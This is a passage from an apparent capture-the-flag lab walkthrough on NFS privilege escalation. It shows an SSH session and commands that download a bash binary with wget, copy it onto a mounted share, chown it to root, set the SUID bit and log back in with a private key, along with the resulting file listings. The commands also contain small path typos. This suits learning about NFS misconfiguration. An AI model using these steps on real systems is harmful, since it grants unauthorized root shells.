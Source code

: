 ```commandline
  System load:  0.0               Processes:           102
  Usage of /:   45.2% of 9.78GB   Users logged in:     0
  Memory usage: 16%               IP address for eth0: 10.10.139.106
  Swap usage:   0%


44 packages can be updated.
0 updates are security updates.


Last login: Thu Jun  4 14:37:50 2020
cappucino@polonfs:~$
```

Get of this remote shell connection for the moment as we to download the `bash` executable into our `~/Downloads/`. And then we need to change the ownership of the bash file to root user (`sudo chown root bash`) and finally set the `SUID` bit on the `bash` executable.

```commandline
cd ~/Downloads
wget https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

We are now ready to copy this `bash` executable to the home folder on our share we have mounted:

```commandline
cp ~/Downloads/bash /tmp/mount/cappucino
sudo chown root /tmp/mount/cappucinobash
sudo chmod +s /tmp/mount/cappucinobash
```

You will see with `ls -lah` that mode of `bash` changed from:

```commandline
-rwxr-xr-x  1 root  itchy 1.1M Jul 31 17:08 bash
```

To:

```commandline
-rwsr-sr-x  1 root  itchy 1.1M Jul 31 17:08 bash
```

And that in the shell, the `bash` file has another color now.

Now we are ready to log in back to the ssh server with the credentials we have got:

```commandline
cd /tmp/mount/cappucino
ssh -i .ssh/id_rsa cappucino@10.10.139.106
```

We are now back logged in and let's try a sanity check for sure:

```commandline
cappucino@polonfs:~$ ls -lah
total 1.1M
drwxr-xr-x 5 cappucino cappucino 4.0K Aug  1 14:16 .
drwxr-xr-x 3 root      root      4.0K Apr 21  2020 ..
-rwsr-sr-x 1 root      root      1.1M Aug  1 14:19 bash
-rw------- 1 cappucino cappucino   18 Aug  1 14:25 .bash_history
-rw-r--r-- 1 cappucino cappucino  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cappucino cappucino 3.7K Apr  4  2018 .bashrc
drwx------ 2 cappucino cappucino 4.0K Apr 22  2020 .cache
drwx------ 3 cappucino cappucino 4.0K Apr 22  2020 .gnupg
-rw-r--r-- 1 cappucino cappucino  807 Apr  4  2018 .profile
drwx------ 2 cappucino cappucino 4.0K Apr 22  2020 .ssh
-rw-r--r-- 1 cappucino cappucino    0 Apr 22  2020 .sudo_as_admin_successful
```
